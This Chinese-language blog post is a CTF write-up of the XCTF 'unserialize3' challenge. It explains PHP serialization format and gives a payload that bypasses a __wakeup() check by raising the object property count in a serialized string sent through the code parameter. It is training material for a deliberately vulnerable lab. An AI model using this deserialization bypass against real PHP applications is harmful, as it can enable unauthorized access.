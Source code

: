 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      unserialize3    # 标题 
subtitle:    攻防世界   #副标题
date:       2020-07-13         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
---
```


```
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```

看着情况是让输入一个`code`参数呀。

还有这道题的题目是`unserialize3`,

很不容易让人不浮想联翩啊。。。

猜测`code`参数应该传入一个序列化后的字符串，后台会进行反序列化，

但是反序列化操作时，会触发`__wake()`方法，但可以改变对象属性值个数进行绕过呀。

```
<?php
class xctf{
	public $flag = '111';
	public function __wakeup(){
	exit('bad requests');
	}
}
$obj = new xctf();

$str = serialize($obj);

echo $str;
```

生成`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`

解释一下吧，序列化是为了将对象转换为字符串存储。(因为无法直接存储对象)。

各参数代表的含义：

```
O代表是一个对象:
4代表xctf类型的字符个数:
xctf代表类型:
{就是一个格式
s代表是字符串:
4代表flag属性的字符个数:
flag代表对象的属性;
s依旧代表字符串:
3代表flag属性值111的字符个数:
111代表flag属性的属性值;
} 固定格式
```

`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`改为`O:4:"xctf":2:{s:4:"flag";s:3:"111";}`,绕过。

![UtA7bn.png](https://s1.ax1x.com/2020/07/13/UtA7bn.png)
